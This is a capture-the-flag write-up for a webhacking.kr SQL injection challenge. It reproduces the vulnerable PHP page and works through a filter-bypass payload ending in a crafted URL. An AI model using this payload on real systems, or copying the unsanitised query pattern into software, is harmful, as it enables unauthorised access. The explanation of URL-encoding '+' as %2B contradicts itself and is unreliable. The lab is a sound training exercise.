

## Analysis
The initial website is just a plain html with a input field and a hint, that this challenge will be focused onto SQL injection.



There is also a link to the source code.
```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 18</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; }
a { color:lightgreen; }
</style>
</head>
<body>
<br><br>
<center><h1>SQL INJECTION</h1>
<form method=get action=index.php>
<table border=0 align=center cellpadding=10 cellspacing=0>
<tr><td><input type=text name=no></td><td><input type=submit></td></tr>
</table>
</form>
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br>
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
</a>
<br><br><a href=?view_source=1>view-source</a>
</center>
</body>
</html>
```

The code takes value of `no` from GET request, runs it through regex and in case it does not match, it will send sql query.

### Regex

```php
if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i", $_GET['no'])) exit("no hack");
```
This line checks if the `no` parameter in the GET request contains any of the following:
- Spaces (` `)
- Forward slashes (`/`)
- Parentheses (`(` or `)`)
- Pipe characters (`|`)
- Ampersands (`&`)
- The keywords `select` or `from` (case-insensitive due to the `i` modifier)
- The string `0x`

If any of these are found, the script exits with the message `"no hack"`.

### SQL Query

The SQL query being executed is:
```php
$result = mysqli_fetch_array(mysqli_query($db, "SELECT id FROM chall18 WHERE id='guest' AND no=$_GET[no]"));
```
- The query selects the `id` from the `chall18` table where:
  - `id` is `'guest'`
  - `no` matches the value of `$_GET['no']`.

The goal is to manipulate the `no` parameter to bypass the filter and retrieve the `admin` user's information (where `no=2`).

## Exploit

We have all the necessary information. We know that the original SQL query is:
```php
SELECT id FROM chall18 WHERE id='guest' AND no=
```

Our goal is to manipulate the query into something like this:
```php
SELECT id FROM chall18 WHERE id='guest' AND no=2 OR id='admin'
```

However, the challenge restricts the use of spaces, brackets, and slashes due to the following filter:
```php
if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i", $_GET['no'])) exit("no hack");
```

### Bypassing the Filter
To bypass the filter, we can use the following payload:

```php
2+OR+id+LIKE+'admin'
```
The `+` symbol is interpreted as a space in URLs.

### URL Encoding
Since the `+` symbol is interpreted as a space in URLs, we can use URL encoding to ensure the payload is processed correctly. The payload:
```
2+OR+id+LIKE+'admin'
```
becomes:
```
2%2BOR%2Bid%2BLIKE%2B%27admin%27
```
- `%2B` represents the `+` symbol.
- `%27` represents the single quote (`'`).

### Final URL
The final URL with the encoded payload will look like this:
```
https://webhacking.kr/challenge/web-32/index.php?no=2%2BOR%2Bid%2BLIKE%2B%27admin%27
```
